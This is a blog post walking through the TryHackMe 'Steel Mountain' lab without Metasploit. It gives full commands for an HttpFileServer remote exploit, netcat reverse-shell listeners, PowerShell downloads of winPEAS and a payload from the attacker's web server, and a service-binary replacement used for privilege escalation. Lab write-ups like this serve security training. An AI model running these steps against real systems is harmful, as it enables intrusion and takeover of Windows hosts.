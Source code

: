 # TryHackMe: Complete Beginner

## Steel Mountain

Things got busy yesterday and I had to push finishing this section off a day. The machine’s new IP address is 10.10.174.199.

### Access and Escalation Without Metasploit

The alternate exploit we’re going to run for this is located at /usr/share/exploitdb/exploits/windows/remote/39161.py on Kali Linux. To set this up, we’re going to use a quick-n-dirty Python web server containing a statically-compiled version of netcat. This needs to be running on port 80 for the exploit to work (don’t forget to punch a hole through the firewall for this!).

```bash
mkdir 1
cd 1
cp /usr/share/windows-binaries/nc.exe .
curl -O https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe
sudo python3 -m http.server 80
```

Ready our listener in another terminal. Note that WinPEAS generates *a lot* of output, so we need to increase TMUX history buffer (`set -g history-limit 8192`) in order to be able to capture all of it. This needs to be set *before* creating the window that we’re going to catch our reverse shell in!

```bash
nc -lvnp 4444
```

Copy, setup, and run the exploit!

```bash
cp /usr/share/exploitdb/exploits/windows/remote/39161.py .
nano 39161.py # Change ip_addr and local_port
python2 39161.py 10.10.174.199 8080
python2 39161.py 10.10.174.199 8080
```

Once we’re in (the exploit needs to be run twice to work), we need to grab and run winPEASx64.exe from our web server.

```bat
powershell -c "Invoke-WebRequest -Uri http://10.13.26.40/winPEASx64.exe -OutFile winPEASx64.exe"
.\winPEASx64.exe
```

Interestingly, while WinPEAS notes that ASCServie.exe is vulnerable to an overwrite, it looks like it misses the fact that the compromised user can restart it. That said, WinPEAS does display *a lot* more information than PowerUp, so it might be useful to run *both*…

Useful PowerShell commands:

* `Get-Service` — list all services, or drill down on a particular service.
* `sc stop $SERVICE`/`sc start $SERVICE` — stop/start $SERVICE.

Putting this all together, we can replicate [yesterday’s compromise]() by:

```bat
powershell -c "Invoke-WebRequest -Uri http://10.13.26.40/ASCService.exe -OutFile ASCService.exe"
sc stop AdvancedSystemCareService9
copy "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe" ASCService.exe.bak
copy /Y ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
sc start AdvancedSystemCareService9
```

Where ASCService.exe is the same compromise as last time, and we again catch the reverse shell using:

```bash
nc -lvnp 4443
```

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> November 8, 2021
